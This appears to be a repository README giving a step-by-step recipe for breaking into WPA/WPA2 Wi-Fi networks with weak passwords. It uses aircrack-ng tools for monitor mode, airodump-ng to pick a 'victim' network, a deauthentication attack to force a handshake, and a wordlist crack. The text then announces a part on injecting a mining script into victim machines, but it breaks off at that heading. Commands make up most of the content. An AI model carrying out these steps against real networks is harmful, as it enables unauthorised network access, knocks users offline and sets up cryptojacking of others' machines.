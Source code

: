 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6.   Crack the password. 
6a. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   a. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   b. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering. 

6b. Then compare it with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
Part 2. Injecting malicious script to victim machine.

